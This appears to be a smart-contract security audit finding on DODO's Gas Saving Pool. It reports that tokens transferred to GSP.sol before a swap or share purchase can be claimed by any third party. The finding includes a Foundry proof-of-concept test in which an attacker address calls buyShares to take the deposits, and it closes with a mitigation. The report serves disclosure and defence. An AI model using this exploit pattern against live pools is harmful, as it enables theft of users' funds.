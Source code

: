 Melodic Cobalt Platypus

high

# Anyone can steal the base/quote token that is sent to `GSP.sol`

## Summary
If a user transfers base/quote tokens to swap on `GSPTrader.sol::sellBase()`, `GSPTrader.sol::sellQuote()` or `GPSFuding.sol::buyShares()`. Once the transfer is made, anyone can steal the assets sent.

## Vulnerability Detail

The vulnerability is detected in three specific functions: `GSPTrader.sol::sellBase(`), `GSPTrader.sol::sellQuote()`, and `GPSFuding.sol::buyShares()` and occurs when a user wants to buy some shares or make swap for its token.

1. A user sends tokens (base or quote) to the contract.
2. Due to the absence of a tracking mechanism for these deposits, any third party can claim these tokens.
3. The attacker can then sell these tokens or use them to buy shares, subsequently selling these shares for tokens.

When this happens, ownership of the token passes to the malicious actor. As a result, the malicious actor can sell any of these tokens and send them to his wallet or exchange them for shares and then, if he wishes, sell this share and receive the corresponding amount of tokens. Therefore, the user loses everything.

### PoC 

To replicate this vulnerability, use the same testing environment as the DODO team. Run the following script with `forge test --mt getShare --fork-url $ETH_RPC_URL -vvv` .

This script demonstrates the sequence of events post-user transfer, culminating in the attacker buying shares with the transferred amount.

```solidity 
// SPDX-License-Identifier: MIT 

pragma solidity 0.8.16;
import "forge-std/console.sol";
import { Test } from "forge-std/Test.sol";
import { DeployGSP } from "../scripts/DeployGSP.s.sol";
import { GSP } from "../contracts/GasSavingPool/impl/GSP.sol";
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";


contract GetShare is Test {
    GSP gsp;

    address DODO_TEAM = vm.addr(1);
    address USER = vm.addr(2);
    address ATTACKER = vm.addr(777);
    address constant USDC_WHALE = 0x51eDF02152EBfb338e03E30d65C15fBf06cc9ECC;
    address constant DAI_WHALE = 0x25B313158Ce11080524DcA0fD01141EeD5f94b81;
    address constant USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address constant DAI = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
    IERC20 private usdc = IERC20(USDC);
    IERC20 private dai = IERC20(DAI);

    // Test Params
    uint256 constant BASE_RESERVE = 1e19; // 10 DAI
    uint256 constant QUOTE_RESERVE = 1e7; // 10 USDC
    uint256 constant BASE_INPUT = 1e18; // 1 DAI
    uint256 constant QUOTE_INPUT = 2e6; // 2 USDC 


    function setUp() public {
        // Create and deploy GSP.sol
        DeployGSP deployGSP = new DeployGSP();
        gsp = deployGSP.run();

        // Transfer amoutn of DAI and USDC to DODO_TEAM
        vm.startPrank(DAI_WHALE);
        dai.transfer(DODO_TEAM, BASE_RESERVE);
        vm.stopPrank();

        vm.startPrank(USDC_WHALE);
        usdc.transfer(DODO_TEAM,QUOTE_RESERVE);
        vm.stopPrank();

        // Transfer amoutn of DAI and USDC to USER
        vm.startPrank(DAI_WHALE);
        dai.transfer(USER, BASE_INPUT);
        vm.stopPrank();

        vm.startPrank(USDC_WHALE);
        usdc.transfer(USER,QUOTE_INPUT);
        vm.stopPrank();
    }


    function test_getShareFromTheUser() public { 
        console.log("---------------------------------------------");
        console.log("Before the attack");
        console.log("---------------------------------------------");
        console.log("Attacker share balance: ", gsp.balanceOf(ATTACKER));
        console.log("Attacker USDC balance: ", usdc.balanceOf(ATTACKER));
        console.log("Attacker DAI balance: ", dai.balanceOf(ATTACKER));
        console.log("DODO TEAM share balance: ", gsp.balanceOf(DODO_TEAM));
        console.log("DODO TEAM USDC balance: ", usdc.balanceOf(DODO_TEAM));
        console.log("DODO TEAM DAI balance: ", dai.balanceOf(DODO_TEAM));
        console.log("USER share balance: ", gsp.balanceOf(USER));
        console.log("USER USDC balance: ", usdc.balanceOf(USER));
        console.log("USER DAI balance: ", dai.balanceOf(USER));


        // DODO TEAM made a transfer 
        vm.startPrank(DODO_TEAM);
        dai.transfer(address(gsp), BASE_RESERVE);
        usdc.transfer(address(gsp), QUOTE_RESERVE);
        vm.stopPrank();
        // Attacker stole the funds
        vm.startPrank(ATTACKER);
        gsp.buyShares(ATTACKER);
        assertTrue(gsp._BASE_RESERVE_() == BASE_RESERVE);
        assertTrue(gsp._QUOTE_RESERVE_() == QUOTE_RESERVE);
        vm.stopPrank();

       // User a transfer 
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_INPUT);
        usdc.transfer(address(gsp), QUOTE_INPUT);
        vm.stopPrank();
        // Attacker stole the funds again
        vm.startPrank(ATTACKER);
        gsp.buyShares(ATTACKER);
        vm.stopPrank();
        console.log("---------------------------------------------");
        console.log("After the attack");
        console.log("---------------------------------------------");
        console.log("Attacker share balance: ", gsp.balanceOf(ATTACKER));
        console.log("Attacker USDC balance: ", usdc.balanceOf(ATTACKER));
        console.log("Attacker DAI balance: ", dai.balanceOf(ATTACKER));
        console.log("DODO TEAM share balance: ", gsp.balanceOf(DODO_TEAM));
        console.log("DODO TEAM USDC balance: ", usdc.balanceOf(DODO_TEAM));
        console.log("DODO TEAM DAI balance: ", dai.balanceOf(DODO_TEAM));
        console.log("USER share balance: ", gsp.balanceOf(USER));
        console.log("USER USDC balance: ", usdc.balanceOf(USER));
        console.log("USER DAI balance: ", dai.balanceOf(USER));
    }
}
```

## Impact
The impact of this vulnerability is high. Users are at risk of losing their deposited funds entirely.

## Code Snippet
The affected code sections can be viewed at the following GitHub links:
* [GSPTrader.sol#L40](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L40)
* [GSPTrader.sol#L79](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L79)
* [GSPFunding.sol#L31](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L31)

## Tool used

* Manual Review
* Foundry

## Recommendation

To mitigate this risk, it is essential to implement a robust deposit tracking system. This system should ensure that only users who have made prior deposits can execute trades or buy shares.
